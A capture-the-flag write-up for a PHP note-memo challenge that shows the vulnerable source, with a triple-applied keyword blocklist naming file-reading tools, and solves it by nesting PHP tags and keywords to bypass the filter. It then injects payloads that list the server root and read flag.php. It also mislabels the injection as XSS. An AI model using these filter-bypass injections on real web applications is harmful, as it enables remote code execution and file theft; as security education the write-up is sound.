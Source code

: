 # Phat Pottomed Girls - Writeup

This challenge gives us a website of note memo that you can create a note as much as you want and it'll store on the website.

The challenge also gives us the backend source code as the following. 

## Source code 
```php
<?php
session_start();

function generateRandomString($length = 15) {
    $characters = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ';
    $charactersLength = strlen($characters);
    $randomString = '';
    for ($i = 0; $i < $length; $i++) {
        $randomString .= $characters[rand(0, $charactersLength - 1)];
    }
    return $randomString;
}
function filter($originalstring)
{
    $notetoadd = str_replace("<?php", "", $originalstring);
    $notetoadd = str_replace("?>", "", $notetoadd);
    $notetoadd = str_replace("<?", "", $notetoadd);
    $notetoadd = str_replace("flag", "", $notetoadd);

    $notetoadd = str_replace("fopen", "", $notetoadd);
    $notetoadd = str_replace("fread", "", $notetoadd);
    $notetoadd = str_replace("file_get_contents", "", $notetoadd);
    $notetoadd = str_replace("fgets", "", $notetoadd);
    $notetoadd = str_replace("cat", "", $notetoadd);
    $notetoadd = str_replace("strings", "", $notetoadd);
    $notetoadd = str_replace("less", "", $notetoadd);
    $notetoadd = str_replace("more", "", $notetoadd);
    $notetoadd = str_replace("head", "", $notetoadd);
    $notetoadd = str_replace("tail", "", $notetoadd);
    $notetoadd = str_replace("dd", "", $notetoadd);
    $notetoadd = str_replace("cut", "", $notetoadd);
    $notetoadd = str_replace("grep", "", $notetoadd);
    $notetoadd = str_replace("tac", "", $notetoadd);
    $notetoadd = str_replace("awk", "", $notetoadd);
    $notetoadd = str_replace("sed", "", $notetoadd);
    $notetoadd = str_replace("read", "", $notetoadd);
    $notetoadd = str_replace("system", "", $notetoadd);

    return $notetoadd;
}

if(isset($_POST["notewrite"]))
{
    $newnote = $_POST["notewrite"];

    //3rd times the charm and I've learned my lesson. Now I'll make sure to filter more than once :)
    $notetoadd = filter($newnote);
    $notetoadd = filter($notetoadd);
    $notetoadd = filter($notetoadd);

    $filename = generateRandomString();
    array_push($_SESSION["notes"], "$filename.php");
    file_put_contents("$filename.php", $notetoadd);
    header("location:index.php");
}
?>
```
## Analysis
From looking at the source code, the input will be sanitized from a group of reserved words for three times. Which means, if there is an input that need to be sanitized for four times, this sanitization wouldn't work. So we'll exploit from here. 

For example : 

`'<<<<????'` will become `'<?'` which bypass the input sanitization process.

It's also given that the flag is in the root directory. Just to make sure, we can use XSS to force the website to tell where the root directory is, and find what could be the flag file in the root diary. Then print the flag file by injecting the php script into the note.

## Solution 

As I said in the analysis part, we will start from checking the root directory. By typing,

```php
<<<<?????=$_SERVER['DOCUMENT_ROOT']???>>>
```

which will be sanitized to 
```php
<?=$_SERVER['DOCUMENT_ROOT']?>
```
which will display the current directory of the website, that is 
```
/var/www/html/
```
To go to root directory `/` we have to go to parent directory 3 times (parent of html and www and var respectively.) Therefore, if there is any a.txt in the root path, we can access them in the following path 
```
../../../a.txt
```
Since I'm not sure about the name and type of the flag file, so I decide to scan in that directory first, by injecting the following input. 
```php
<<<<????php echo '<pre>'; print_r(scandir('../../../')); echo '</pre>';>>>>
```
Note : `scandir($path)` will return the list of the file or directory in `$path`.

So we find the `flag.php` in that directory, then, here is the final input we will use to display the `flag.php` file.

```php
<<<<????php echo htmlentities(firerereadadadle_get_contents('../../../flflflflagagagag.php'));????>>>>
```
and we finally got the flag.

flag : 
```
flag{wait_but_i_fixed_it_after_my_last_two_blunders_i_even_filtered_three_times_:(((}
```

